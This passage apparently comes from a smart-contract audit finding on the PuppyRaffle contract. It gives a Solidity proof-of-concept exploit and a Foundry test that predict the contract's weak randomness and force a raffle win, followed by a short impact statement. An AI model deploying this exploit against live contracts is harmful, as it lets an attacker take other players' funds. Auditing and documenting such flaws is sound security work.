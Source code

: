 ```solidity
contract Exp {
    PuppyRaffle pr;
    constructor(address addr) payable {
        pr = PuppyRaffle(addr);
    }
    function Attack() public payable {
        uint256 winnerIndex = 0;
        while (true) {
            winnerIndex =
                uint256(
                    keccak256(
                        abi.encodePacked(
                            address(this), 
                            block.timestamp, 
                            block.difficulty
                        )
                    )
                ) % 4;
            if (winnerIndex == 3) {
                break;
            }
        }
        address[] memory newPlayers = new address[](1);
        newPlayers[0] = address(this);
        pr.enterRaffle{value : pr.entranceFee() * 1}(newPlayers);
        pr.selectWinner();
    }
}
```

#### Test Case

```solidity
function testAttackerCalculateWinner() public {
    address[] memory players = new address[](3);
    players[0] = makeAddr("playerOne");
    players[1] = makeAddr("playerTwo");
    players[2] = makeAddr("playerThree");
    puppyRaffle.enterRaffle{value : entranceFee * 3}(players);
    Exp exp = new Exp{value : entranceFee * 2}(address(puppyRaffle));
    exp.Attack();
}
```



### Impact

The Attacker can meticulously calculate based on the known information from the blockchain and become the winner.



### Recommendation
